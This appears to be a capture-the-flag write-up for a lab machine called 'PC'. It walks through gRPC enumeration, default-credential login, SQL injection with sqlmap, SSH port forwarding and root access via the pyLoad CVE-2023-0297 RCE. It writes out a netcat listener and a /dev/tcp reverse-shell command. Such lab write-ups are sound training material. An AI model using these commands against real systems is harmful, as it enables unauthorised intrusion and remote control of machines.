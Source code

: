 # Walking through PC

## Gathering Part

We began our journey by gathering information about the target and establishing a basic cartography of its structure.

To do so, we’re going to launch an `nmap` scan:

```console
kali@kali:~ sudo nmap -sV -A -p- -T5 10.10.11.214
````

I found a pretty common SSH service running on port 22 and a less usual **gRPC** service running on port 50051 (this could also be detected using `whatweb`).

### What is gRPC?

**gRPC** (Google Remote Procedure Call) is a high-performance, open-source RPC framework developed by Google. RPC is a concept where a program can execute a function on another computer (or server) as if it were calling a local function.

But let's get back to our business. We tried to see if we could interact and grab some banners using `telnet` on the gRPC port. Nothing, except for an encoded message.


![$alt text$](./images/telnet.png)

Our next task is to find a way to communicate with our target. After further research, we found a tool named `grpcurl`. "It's like curl, but for gRPC." Using this command:

```console
kali@kali:~ grpcurl --plaintext 10.10.11.214:50051 list 
```

We could then see the available services on this server and retrieve a schema for them.

We could move forward with this tool, but we are more comfortable with a UI (that's my Windows side...).

There is a tool that could help us with that: `gRPCui`. It's a command-line tool that lets you interact with gRPC servers via a browser. Among the available endpoints, we could see **LoginUser**, **RegisterUser**, or **getInfo**.

We could then launch the next phase: gaining access to the system.

## Gaining access to the system by exploiting vulnerabilities

I went through the app and went to the login page. My first thought was to try the famous *admin:admin* credentials to log in. To my surprise, it worked.


![default credentials test](./images/defaultcred1.png)

We’re given an ID (162) and a token, which seems to be a JWT token.

![authenticated](./images/id_token1.png)

We use our resources to get the composition of this token:

![Our Jwt token](./images/JwtToken.png)

Looking for vulnerabilities related to gRPC, we could see that it is prone to SQLi. That said, we attempted to use sqlmap with the **getInfo** endpoint (by retrieving the request). We retrieved the request made to the **getInfo** endpoint.

![HTTP Request to the getInfo endpoint](./images/request.png)

Then, we launch our tool used to automate SQL injection testing using this command:

```console
kali@kali:~ sqlmap -r request.txt
```
It turns out to be successful and allows us to dump the password of a user (**sau**).

![Sqlmap output](./images/sqlmap_result.png)

Attempting this via SSH is also successful. So, we gained access to our PC! Next step: looking through the system for any vulnerabilities that could allow us to escalate our privileges.


## Privilege Escalation

Among the first things to do on the machine: look for sudo capabilities. To do so, we launch the command:

``` console
kali@kali:~ sudo -l
```
Nothing to see here.

What comes next is to search for open ports exclusively for the local network on this machine, because there could be services running but not accessible to others.

Guess what? It's definitely the case: something is running on port 8000 and on port 9666.
Nevertheless, port 8000 is open only through the localhost address.


![Netstat](./images/netstat.png)

We tried to communicate with these ports. There's nothing better than using telnet to try it. 

![Telnet within the server](./images/telnet_viaSSH.png)

We are talking to an HTTP service.

A simple `curl` helped us resolve our little mystery.

``` console
sau@pc:~ curl -v http://localhost:9666
```
We then discovered a website with an obscure endpoint used to log in. 

Knowing that we have SSH access to the system, we could use the SSH forwarding technique to see what’s going on. To do so, here is our command:

``` console
kali@kali:~ ssh -L 9666:127.0.0.1:1234 sau@10.10.11.214 -N
```

That's a pyLoad server. Looking for the version on the system, we found that it's **version 0.5.0**, and it's vulnerable to a pre-authenticated RCE (**CVE-2023-0297**).


![Pyload server](./images/pyLoad.png)

We fetched a script here:

![CVE-2023-0297](./images/RepoExploit_Pyload.png)

Right after, we set up everything we need for the exploit to work, which means:

- The listener on the port of your choice (`nc -lvnp 6789`)
- The command we want to launch (`bash -c '/bin/sh -i >& /dev/tcp/X.X.X.X/6789 0>&1'`)

And here we go!


![exploit](./images/exploitPyload.png)

That's a success; we're root!

![root](./images/root.png)

We can now retrieve our flag from the /root directory.
